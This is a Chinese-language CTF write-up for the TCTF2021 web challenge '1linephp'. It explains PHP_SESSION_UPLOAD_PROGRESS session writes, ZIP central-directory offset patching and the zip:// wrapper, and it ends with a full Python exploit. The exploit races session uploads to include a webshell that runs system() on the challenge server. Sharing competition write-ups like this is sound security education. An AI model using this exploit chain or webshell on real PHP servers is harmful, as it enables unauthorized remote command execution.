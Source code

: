 > 原文链接: https://www.anquanke.com//post/id/246292 


# TCTF2021-1linephp 题解


                                阅读量   
                                **96780**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t01e2aafaaf8d646f42.jpg)](https://p3.ssl.qhimg.com/t01e2aafaaf8d646f42.jpg)



## 前言

这是刚结束的 TCTF2021 的一道 Web 题，题目难度不大，但是解题利用到的知识点非常有意思，这里给各位师傅分享一下。



## 一、题目分析

题目源码：

```
&lt;?php
($_=@$_GET['yxxx'].'.php') &amp;&amp; @substr(file($_)[0],0,6) === '@&lt;?php' ? include($_) : highlight_file(__FILE__) &amp;&amp; include('phpinfo.html');
```

题目存在一个有限制的任意文件包含：
<li>1.后缀必须是 `.php`
</li>
<li>2.文件开头必须为 `@&lt;?php`
</li>
此外，题目提供了 phpinfo 的数据，注意到题目环境安装了一个 ZIP 扩展：

[![](https://p0.ssl.qhimg.com/t012c7d175ff956c68b.png)](https://p0.ssl.qhimg.com/t012c7d175ff956c68b.png)

显然，这道题目是需要利用 ZIP 伪协议，而且正好其格式 `zip://xxxx#xxxx.php` 也可以符合题目文件包含的条件。<br>
那么，另一个问题，如何上传我们的 ZIP 文件呢？这里就需要利用到 `PHP_SESSION_UPLOAD_PROGRESS` 了。



## 二、PHP_SESSION_UPLOAD_PROGRESS

这个知识点，其实并不新颖，这里我也就简单介绍一下：

[![](https://p4.ssl.qhimg.com/t01d23f38a930925317.png)](https://p4.ssl.qhimg.com/t01d23f38a930925317.png)

大概意思就是，当我们上传文件的同时，POST 一个 `session.upload_progress.name` 设定的变量，PHP 就会将 `sessoin.upload_progress.prefix` + `session.upload_progress.name的值` + `文件上传进度的数组` 写入到 sess 文件中。一般而言，默认的 `session.upload_progress.name` 为 `PHP_SESSION_UPLOAD_PROGRESS`。

[![](https://p3.ssl.qhimg.com/t01f559ff6bbccae926.png)](https://p3.ssl.qhimg.com/t01f559ff6bbccae926.png)

但是，注意到，PHP 并没有对 POST 的内容进行检查。因此，我们可以利用这个方法来将我们的一句话木马写入到 sess 文件中，再利用文件包含来获取这个文件。这个方法，适用于所有可以包含到 sess 文件的题目当中。

这里有两个注意点：
<li>1.虽然题目没有 `session_start()`，但是有两种情况下可以自动生成 sess 文件
<ol>
- (1).`session.auto_start=On`。这种情况下，PHP 会自动初始化 session，但是这个选项默认是 Off 的。
- (2).`session.use_strict_mode=0`，这是默认设置。这种情况下，允许用户自定义 PHPSESSID，并且服务器也会在 session 存储路径下产生 `sess_PHPSESSID` 文件。
</ol>
</li>
- 2.配置 `session.upload_progress.cleanup = on` 默认开启，会导致 session 文件内容在文件上传完成后立刻被清空。对于这个问题，就需要我们利用条件竞争漏洞，在 session 文件被清空前将 session 文件内容包含。


## 三、畸形 Zip 构造

这是 eva0 师傅想出来的思路（**据他说，是一个异想天开的想法**），也有本题最有意思的知识点，涉及到 Zip 文件结构。利用思路参考这篇[文章](https://github.com/p4-team/ctf/tree/master/2016-04-15-plaid-ctf/web_pixelshop)，大概意思是说，**zip 文件不是从头开始读内容的，而是先从后往前找标志位进行解析，**涉及到的 Zip 文件结构体有 `Central directory` 和 `End of central directory record`，下面我们来一一讲解。

`Central directory` 的结构如下：

[![](https://p2.ssl.qhimg.com/t01fefeecf3303b1b16.png)](https://p2.ssl.qhimg.com/t01fefeecf3303b1b16.png)

注意到标红的变量，它标明的是 `0x04034b50` 标志头的位置，也就是我们熟悉的 PK 开头位置，默认值为 0x00000000，也就是在 Zip 文件最开头的位置。显然，如果我们想要修改 Zip 的开头，就要将这个值进行修改，这样就可以在 Zip 的 0x04034b50 位置塞脏数据了。

`End of central directory record` 的结构如下：

[![](https://p5.ssl.qhimg.com/t01353b01061789af04.png)](https://p5.ssl.qhimg.com/t01353b01061789af04.png)

同样注意到标红的变量，它标明的是 `0x02014b50` 标志头，也就是 `Central directory` 的起始位置。同样，我们需要修改这个值，使得解析 ZIP 文件的时候，能够正确定位 `Central directory` 的开头位置。

通过上述讲述，相信大家也大概明白，为什么 ZIP 是从后往前解析的，通过 `End of central directory record` 定位 `Central directory` ，再通过 `Central directory` 定位 ZIP 文件开头。



## 四、开始解题

前面我们提到，这是一个受限制的文件包含漏洞，题目会在我们的输入的 `$_GET['yxxx']` 后添加 `.php`，另外题目安装了 ZIP 扩展。所以，我们的思路是使用 `PHP_SESSION_UPLOAD_PROGRESS` 上传一个 ZIP 文件，然后利用 `zip:///tmp/xxxx#shell` 这样的伪协议进行文件包含。

我们知道，使用 `PHP_SESSION_UPLOAD_PROGRESS` 会自动在我们上传的 ZIP 文件前添加 `upload_progress_`，会影响 ZIP 的正常解析。因此，我们需要提前将 ZIP 的两个偏移量进行修改，然后再上传，这样我们就可以正常解析了。

下面是解题的 EXP，可以一步执行命令：

```
#encoding:utf-8
import io
import requests
import threading
from pwn import *
import os, sys

cmd = '''whoami'''
poc = '''@&lt;?=echo "eva0 yyds";system('%s');?&gt;''' % cmd

f = open('shell.php', 'w')
f.write(poc)
f.close()

os.system('rm -rf shell.zip;zip shell.zip shell.php')

f = open('shell.zip', 'rb')
ZipContent = f.read()
f.close()

central_directory_idx = ZipContent.index(b'\x50\x4B\x01\x02')
end_central_directory_idx = ZipContent.index(b'\x50\x4B\x05\x06')

file_local_header = ZipContent[:central_directory_idx]
central_directory = ZipContent[central_directory_idx:end_central_directory_idx]
end_central_directory = ZipContent[end_central_directory_idx:]

def GetHeaderOffset():
    return u32(central_directory[42:46])

def SetHeaderOffset(offset):
    return central_directory[:42] + p32(offset) + central_directory[46:]

def GetArchiveOffset():
    return u32(end_central_directory[16:20])

def SetArchiveOffset(offset):
    return end_central_directory[:16] + p32(offset) + end_central_directory[20:]

def Create(start, end):
    length = len(start)
    HeaderOffset = SetHeaderOffset(length + GetHeaderOffset())
    ArchiveOffset = SetArchiveOffset(length + GetArchiveOffset())

    NewZipContent = file_local_header + HeaderOffset + ArchiveOffset

    return NewZipContent

start = b'upload_progress_'
end = b'|a:5:`{`s:10:"start_time";i:1625309087;s:14:"content_length";i:336;s:15:"bytes_processed";i:336;s:4:"done";b:0;s:5:"files";a:1:`{`i:0;a:7:`{`s:10:"field_name";s:4:"file";s:4:"name";s:13:"callmecro.txt";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1625309087;s:15:"bytes_processed";i:336;`}``}``}`'

ZipContent = Create(start, end)
f = open("shell.zip","wb")
f.write(ZipContent)
f.close()

sessid = 'callmecro'
url = 'http://111.186.59.2:50081/'

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 1024)
        r = session.post(url, data=`{`'PHP_SESSION_UPLOAD_PROGRESS': ZipContent`}`, files=`{`'file': ('callmecro.txt',f)`}`, cookies=`{`'PHPSESSID': sessid`}`)

def read(session):
    while True:
        r = session.post(url+'?yxxx=zip:///tmp/sess_'+sessid+'%23'+'shell', data=`{``}`)
        if '@eva0 yyds' in r.text:
            print(r.text.strip('@eva0 yyds'))
            event.clear()
            sys.exit()

event=threading.Event()
with requests.session() as session:
    for i in range(30):
        threading.Thread(target=write,args=(session,)).start()
    for i in range(30):
        threading.Thread(target=read,args=(session,)).start()
event.set()
```



## 参考文章
1. [npfs 的《利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含》](https://www.cnblogs.com/NPFS/p/13795170.html)
1. [TGAO 的《利用session.upload_progress进行文件包含和反序列化渗透》](https://www.freebuf.com/news/202819.html)
1. [saltor 的《ZIP文件格式分析》](https://blog.csdn.net/a200710716/article/details/51644421)
1. [p4-team 的《PlaidCTF2016_PixelShop WP》](https://github.com/p4-team/ctf/tree/master/2016-04-15-plaid-ctf/web_pixelshop/src)